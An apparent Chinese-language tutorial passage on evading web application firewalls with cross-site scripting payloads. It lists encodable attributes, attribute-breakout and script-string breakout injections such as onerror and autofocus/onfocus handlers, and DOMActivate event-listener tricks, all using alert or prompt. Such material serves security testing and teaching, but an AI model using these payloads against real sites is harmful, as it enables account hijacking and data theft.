 javascript是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode和HTML。但是也对这些编码可以用在哪个位置有规定：
```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
```
支持的编码方式：HTML，八进制，十进制，十六进制和Unicode

data=
支持的编码：base64

基于上下文的过滤

WAF最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

输入在属性里
```
<input value="XSStest" type=text>
```
可控位置为XSStest，可以使用
```
"><img src=x onerror=prompt(0);>
```
如果< >被过滤的话可以换成
```
" autofocus onfocus=alert(1)//
```
同样还有很多其他的payload：
```
"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa="
```
输入在script标签中
```
<script>
Var x="Input";
</script>
```
可控位置在Input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了
```
";alert(1)//
```
最终结果就是
```
<script>
Var x="";alert(1)//
</script>
```
非常规的事件监听
```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
```
下面是一些相同的类：
```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
```